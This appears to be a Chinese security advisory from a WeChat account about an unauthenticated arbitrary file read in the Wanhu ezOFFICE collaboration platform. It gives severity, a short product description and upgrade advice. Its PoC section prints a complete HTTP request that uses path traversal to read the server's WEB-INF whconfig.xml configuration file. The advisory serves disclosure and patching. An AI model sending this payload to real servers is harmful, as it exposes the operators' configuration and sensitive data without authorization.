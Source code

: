 #  漏洞预警 | 万户ezOFFICE任意文件读取漏洞   
原创 浅安  浅安安全   2024-01-27 08:00  
  
**0x00 漏洞编号**  
- # 暂无  
  
**0x01 危险等级**  
- 高危  
  
**0x02 漏洞概述**  
  
万户ezOFFICE协同管理平台是一个综合信息基础应用平台分为企业版和政务版。解决方案由五大应用、两个支撑平台组成，分别为知识管理、工作流程、沟通交流、辅助办公、集成解决方案及应用支撑平台、基础支撑平台。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/7stTqD182SVeemR7wLPNZGZtdPjw4eLqOVVq8ryDyFuM9m1TXH2Sy7dMzlFrVt1Yf6Fz75gLLqAwmxy3IrxzVg/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**0x03 漏洞详情**  
  
**漏洞类型：**  
任意文件读取  
  
**影响：**  
获取敏感信息  
  
**简述：**  
万户ezOFFICE协同管理平台text2Htm接口处存在任意文件读取漏洞，未经身份认证的攻击者可以通过此漏洞读取敏感文件。  
###   
  
**0x04 影响版本**  
- 万户ezOFFICE  
  
**0x05****POC**  
```
POST /defaultroot/convertFile/text2Html.controller HTTP/1.1
Host: {host}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.124 Safari/537.36
Connection: close
Content-Length: 75
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
SL-CE-SUID: 1081

saveFileName=1/../../../../WEB-INF/config/whconfig.xml&moduleName=html
```  
  
  
**仅供安全研究与学习之用，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布****者**  
**不承担任何法律及连带责任。**  
  
**0x06****修复建议**  
  
**目前官方已发布漏洞修复版本，建议用户升级到安全版本****：**  
  
https://www.whir.net/  
  
  
  

